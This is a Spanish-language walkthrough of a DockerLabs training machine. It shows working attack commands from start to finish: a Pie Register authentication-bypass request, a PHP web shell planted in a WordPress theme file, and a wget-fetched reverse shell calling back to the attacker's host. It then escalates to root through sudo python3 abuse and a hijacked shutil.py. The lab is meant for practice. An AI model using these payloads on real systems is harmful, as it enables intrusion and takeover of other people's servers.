## mONTAJE DE LA MÁQUINA VULNERABLE

Descargamos desde `https://dockerlabs.es/` la máquina talent, es un zip.
Con `unzip talent.zip` lo descomprimimos, nos descomprime dos archivos que ejecutando lo siguiente nos monta la máquina en un docker:
```bash
sudo bash auto_deploy.sh talent.ta
```


En este punto, si no está actualizada la máquina hacemos lo siguiente:

```bash
sudo docker container ls  "necesitareis el id del container"
sudo docker exec -it <ID del container> bash -c 'apt update -y'
sudo docker exec -it <ID del container> bash -c 'apt install python3 -y'
```


# FASE DE ENUMERACÓN E INTRUSIÓN

Empezamos enumerando los puertos  abiertos y que servicios corren por ellos así como sus versiones por si son vulnerables:


```bash
 sudo nmap -sS -sCV --open -p- --min-rate 5000 172.17.0.2 -vvv -oN nmap
```


Vemos un único puerto abierto el 80, y podemos ver que se trata de un `WordPress 6.9.1`, antes de ir a la web vamos a enumerar el wordpress y sus plugins con wpscan:

```bash
wpscan --url http://172.17.0.2 --enumerate p
```


Vamos un plugin llamado `pie-register` en una versión `3.7.1.0` desactualizada, vamos a ver si hay algún exploit para este plugin,
y encontramos uno prometedor en esta URL `https://www.exploit-db.com/exploits/50395`


Lo único es que habrá que ajustarlo y lanzamos un curl:

```bash
curl -i -s -X POST http://172.17.0.2/ -d "user_id_social_site=1&social_site=true&piereg_login_after_registration=true&_wp_http_referer=/login/&log=null&pwd=null"
```


Esto nos ha devuleto unas cookies de sesión, asi pues nos toca it a la URL de la víctima. 
Antes miramos un poco por si vemos algo interesante y vemos esto que nos apuntamos:


Toca hacer unos cambios en la URL la dejamos así: `http://172.17.0.2/wp-admin` sin ejecutarla, abrimos la herramienta de 
desarrollador con `F12`--->nos vamos a `storage`---> y buscamos las cookies

Ahora añadimos las cookies que nos dió el exploit, las dos que ponen `wp-admin` y una vez añadidas damos al enter de la URL y nos lleva al panel del administrador.


Una vez dentro, vamos a cambiar algún php para poder inyectar comandos, nos acordamos del `Twenty Twenty-Five` que vimos y nos vamos a:

Tools--->Theme file editor
Una vez ahí nos aseguramos en la parte derecha de tener seleccionado `Twenty Twenty-Five` y debajo buscamos y seleccionamos `functions.php`


Al final añadimos `system($_GET["cmd"]);` y damos a `Update file`


En teoría wordpress empieza a cargar cosas y esta se carga en la página principal, vamos a ver si funciona, nos vamos a la página principal y
probamos si podemos inyectar comandos:
```bash
http://172.17.0.2/?cmd=id
```


Tenemos ejecución remota de comandos.


Intenté una reverse shell urlencodeandola y no me dejó asi pués:

1- Buscamos si dispone de wget:




2- Creamos un archivo malicioso

```bash
echo "sh -i >& /dev/tcp/172.17.0.1/4444 0>&1" > reverse.sh
```




3- Levantamos un servidor por el puerto 80

```bash
sudo python3 -m http.server 80
```



4- en otra ventana nos ponemos a la escucha por el puerto 4444

```bash
sudo nc -nvlp 4444
```


5- en la página web en la URL ejevutamos el siguiente comando: `wget+http://172.17.0.1/reverse.sh` quedando la URL así:
```bash
http://172.17.0.2/?cmd=wget+http://172.17.0.1/reverse.sh
```


6-Al estar descargada, ahora lo ejecutamos con el sigueinte comando `bash+reverse.sh`
```bash
http://172.17.0.2/?cmd=bash+reverse.sh
```





Resumiendo, creamos un archivo que contiene una reverse shell, montamos un servidor para poder reclamar el archivo con la ejecucion remota de comandos ya que dispone de wget, una vez descargado estando a la escucha por el puerto 4444 ejecutamos con bash el archivo y nos creamos una reverse shell y entramos como www-data.


## FASE ESCALADA DE PRIVILEGIOS

Hacemos tratamiento de la TTY:
```bash
export TERM=xterm
export SHELL=bash
script /dev/null -c bash 
^Z
stty raw -echo; fg
reset xterm
stty rows 51 columns 237
```

Con `sudo -l` vemos que tenemos un privilegio que es ejecutar python3 como el usuario bobby 





Vamos a la página `https://gtfobins.org/` y vemos que se puede abusar el binario




Ajustamos a python3 y ejecutamos en siguiente comando:

```bash
sudo -u bobby /usr/bin/python3 -c 'import os; os.execl("/bin/sh", "sh")'
```





Ya somos bobby.

hacemos un pseudo tratamiento de la TTY:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Ejecutamos `sudo -l` y vemos que tenemos privilegios como cualquier usuario (eso incluye root) de `/usr/bin/python3 /opt/backup.py`





en `/opt` tengo permisos de escritura y el script me me da pié a un Library Hijacking, primero miro el PATH:
```bash
 echo $PATH
```
y veo esto:
```
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
```

me aseguro de que el primero directorio que mire sea `/opt`:
```bash
export PATH=/opt:$PATH
```
lo compruebo:

```
echo $PATH
/opt:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
```




Al inicio del script importa librerias:
```
import os
import sys
import shutil
import datetime
import tarfile
import logging
import argparse
```



y voy a crear una falsa:

```bash
echo 'import os; os.system("chmod u+s /bin/bash")' > shutil.py
```





y ahora ejecutamos el script:

```bash
sudo -u root /usr/bin/python3 /opt/backup.py
```

comprovamos los permisos de `/bin/bash`

```
 ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

vemos el SUID y ejecutamos:

```
bash -p
```


ya somos root
